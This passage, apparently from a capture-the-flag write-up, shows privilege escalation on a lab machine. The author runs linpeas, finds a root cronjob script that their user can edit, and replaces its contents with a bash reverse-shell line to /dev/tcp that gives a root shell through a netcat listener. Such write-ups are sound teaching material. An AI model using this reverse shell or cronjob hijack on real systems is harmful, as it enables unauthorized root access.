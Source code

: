 ```
boring@kral4-PC:/dev/shm$ chmod +x linpeas.sh && ./linpeas.sh 
```

linpeas does its magic and finds a cronjob running as root.

![](https://imgur.com/PZPCOrn.png)

```
boring@kral4-PC:/dev/shm$ cd /var/www/
boring@kral4-PC:/var/www$ ls -la
total 16
drwxr-xr-x  3 root   root   4096 Jun 15 12:59 .
drwxr-xr-x 14 root   root   4096 Jun 13 15:55 ..
drwxr-xr-x  4 root   root   4096 Jun 15 00:58 html
-rwxr-xr-x  1 boring boring   33 Jun 14 22:43 .mysecretcronjob.sh
```

Yeah I think we've found the priv esc. So the easiest way of going about this is to set up a nc listener and just connect to it with a bash command in the script. You don't even need to put the listener on your attacking machine, just use the localhost address. Edit the script with the following:

```bash
#!/bin/bash
bash -i >& /dev/tcp/127.0.0.1/9001 0>&1
```

Now just set up a listener on the port and become root.

![](https://imgur.com/GuH6KW5.png)

And that's it, machine rooted.